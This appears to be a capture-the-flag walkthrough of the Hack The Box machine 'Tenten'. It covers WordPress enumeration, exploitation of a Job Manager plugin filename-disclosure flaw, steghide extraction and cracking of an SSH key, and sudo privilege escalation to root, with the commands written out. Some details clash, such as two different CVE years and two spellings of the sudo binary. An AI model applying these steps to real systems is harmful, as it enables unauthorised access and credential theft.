# Tenten

This is the write-up for the box Tenten that got retired at the 16th July 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.10    tenten.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tenten.nmap 10.10.10.10
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Checking HTTP (Port 80)

On the web page we see a default WordPress page. 
We can run **Wpscan** and **Nikto** to find some information and vulnerabilities against this service.
```markdown
wpscan --url http://10.10.10.10 --enumerate
```

We now know that this is WordPress version 4.7.3 from march 2017 and we get a username calld _takis_.
There is the plugin _Job Manager 0.7.25_ installed that has the vulnerability [CVE-2015-6668](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/) that we are going to exploit.

By clicking this link we get forwarded to **index.php/jobs**.

![Job Listing Link](https://kyuu-ji.github.io/htb-write-up/sizzle/tenten_jobs-1.png)

Clicking on the button to apply to the job forwards us to **index.php/jobs/apply/8**.
This number tends to be the name a row ID in the WordPress table.

![Apply Now Link](https://kyuu-ji.github.io/htb-write-up/sizzle/tenten_jobs-2.png)

By iterating through this number we get different pages for every number.
- 1: Hello world!
- 2: Sample Page
- 3: Auto Draft
- 4: _Empty_
- 5: Jobs Listing
- 6: Job Application
- 7: Register
- 8: Pen Tester
- 9: _Empty_
- 10: Application
- 11: cube
- 12: Application
- 13: HackerAccessGranted
- 14: _Empty_

Every number after 13 is just empty so we probably reached the end.
If we "apply" to the job and upload a file we should find that file by doing this procedure again.

![Uploading a file](https://kyuu-ji.github.io/htb-write-up/sizzle/tenten_jobs-3.png)

When we browse to the 15th ID we see that there is now a Title called **test** that was my input.
WordPress saves uploaded files in the directory **/wp-content/uploads/current_year/current_month/filename.extension**.

So in my case the file I uploaded is in:
> /wp-content/uploads/2019/11/test.jpg

Now we got file upload but the application does not allow PHP files.
What is interesting is ID 13 with the name **HackerAccessGranted** whose files we want to check.

We will use the Python script from the CVE-2019-6668 and modify the following lines to our needs:
```python
# (...)
for year in range(2017,2019):  
    for i in range(3,13):
        for extension in {'jpg','jpeg','png'}:
# (...)
```

After that we can execute the exploit:
```markdown
python CVE-2019-6668.py
```
```markdown
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

This finds a JPG file from the mysterious user that we download to analyze further

### Analyzing the image file

This is kind of a guessing game but there is data hidden in this file via **Steganography**.
We will use **Steghide** to extract the data from there without putting any password:
```markdown
steghide extract -sf HackerAccessGranted.jpg
```

This extracts a file called **id_rsa** which is a RSA-encrypted private key to use with SSH.

#### Decrypting the key

On the first few lines we can see that this key is encrypted with _AES-128-CBC_:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C
(...)
```

By using [sshng2john](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py) we bring this to a format that is crackable:
```markdown
python sshng2john.py id_rsa
```

Now using the **JohnTheRipper** to crack this:
```markdown
john id_rsa.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while we cracked the password for this key:
> superpassword

## Checking SSH (Port 22)

We change the permissions of the key to _600_ as it should be and can now login with SSH on the box:
```markdown
chmod 600 id_rsa

ssh -i id_rsa takis@10.10.10.10
```

We try it with the user _takis_ because that is the only user we enumerated and we are logged in.

## Privilege Escalation

When we look at the commands that _takis_ can do as root via sudo, we see the file **/bin/fuckin**.
Analyzing it, it executes arguments:
```markdown
cat /bin/fuckin

# Output
#!/bin/bash
$1 $2 $3 $4
```

So if we run this with `sudo` and give it the argument `bash` we should start a Bourne-Shell as root:
```markdown
sudo /bin/fucking bash
```

It does start a session with root and can read the flag!
